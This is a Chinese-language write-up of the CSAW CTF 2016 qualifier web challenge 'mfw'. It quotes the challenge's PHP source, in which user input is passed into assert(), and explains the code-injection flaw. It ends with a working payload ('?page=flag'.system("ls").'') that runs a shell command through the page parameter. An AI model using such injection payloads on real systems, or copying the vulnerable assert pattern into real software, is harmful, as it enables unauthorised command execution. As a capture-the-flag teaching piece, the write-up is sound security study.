 # Writeup-of-web-of-csaw-ctf-2016-quals
This is the Wirteup of web of csaw-ctf-2016-quals

通过 《write-ups-2016》 repository 中链接的几个Writeups可以看到解题方法https://github.com/ctfs/write-ups-2016/tree/master/csaw-ctf-2016-quals/web/mfw

这里是另外一些解题思路和备份。

首先通过上面链接的Writeups里的工具和思路下载得到源码。
主要是index.php源码。
```
<?php

if (isset($_GET['page'])) {
	$page = $_GET['page'];
} else {
	$page = "home";
}

$file = "templates/" . $page . ".php";

// I heard '..' is dangerous!
assert("strpos('$file', '..') === false") or die("Detected hacking attempt!");

// TODO: Make this look nice
assert("file_exists('$file')") or die("That file doesn't exist!");

?>
```
下载到的源码应该是历史版本，所以flag.php中没有给出flag值。
从index.php里可以看出，虽然有require_once $file可以用来包含flag.php，但因为flag是被注释掉的，我们也看不到。
代码中有assert()函数，应该很敏感地想到要利用它来执行任意命令，从而拿到flag。


观察可以发现，page传入的参数存在代码注入漏洞，顺便提一下assert()函数会把传入的字符串当做php代码来执行。

##注入思路：整体上可以注释掉', '..') === false，或者不注释，只在中间插入。另外要注意闭合单引号和括号。


中间插入型，使用 . 连接符：

查看目录：?page=flag'.system("ls").'

![description](images/1.png)







